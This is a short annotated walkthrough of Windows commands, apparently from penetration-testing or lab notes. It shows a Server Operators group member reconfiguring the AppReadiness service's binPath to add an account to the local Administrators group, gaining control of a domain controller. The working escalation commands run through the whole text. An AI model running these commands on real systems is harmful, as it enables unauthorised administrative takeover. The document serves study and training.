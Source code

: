     ```cmd
    # this group has SeBackupPrivilege and SeRestorePrivilege assigned
    # and the ability to control local services

    # query the AppReadiness service
    sc qc AppReadiness
    # this service starts as SYSTEM

    # check permissions on service
    # using PsService tool from Sysinternals suite - https://learn.microsoft.com/en-us/sysinternals/downloads/psservice
    c:\Tools\PsService.exe security AppReadiness
    # shows that Server Operators group has full control over this service
    # as seen from SERVICE_ALL_ACCESS right

    # check local admin group members
    net localgroup Administrators
    # our target account is not present

    # modify service binary path
    # to execute a command which adds our user to admin group
    sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

    # start the service
    sc start AppReadiness
    # this fails, as expected

    net localgroup Administrators
    # server_adm is now a part of this group
    # we have full control over DC
    ```

